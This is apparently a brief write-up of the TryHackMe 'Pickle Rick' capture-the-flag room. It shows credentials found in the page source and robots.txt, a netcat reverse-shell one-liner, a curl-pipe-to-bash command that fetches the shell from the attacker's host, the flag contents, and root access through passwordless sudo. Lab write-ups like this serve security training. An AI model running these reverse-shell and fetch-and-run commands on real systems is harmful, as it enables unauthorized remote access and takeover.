 ```yaml
---
title: Pickle Rick
description: 'Basic web / linux enumeration'
pubDate: 2021-01-01
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg'
---
```


## Webpage source
    Username: R1ckRul3s

Robots.txt:
    Wubbalubbadubdub

## SHELL

shell.sh:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.31.119 4444 >/tmp/f
```

Executing the shell:
```bash
curl 10.9.31.119:8000/shell.sh | bash
```

```bash
www-data@ip-10-10-70-96:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

second ingredients

```bash
www-data@ip-10-10-70-96:/home/rick$ cat *
```
www-data has all sudo rights?

```bash
User www-data may run the following commands on ip-10-10-70-96.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

```bash
sudo cat /root/3rd.txt
3rd ingredients: fleeb juice
```

## ROOT

```bash
sudo bash -p
```
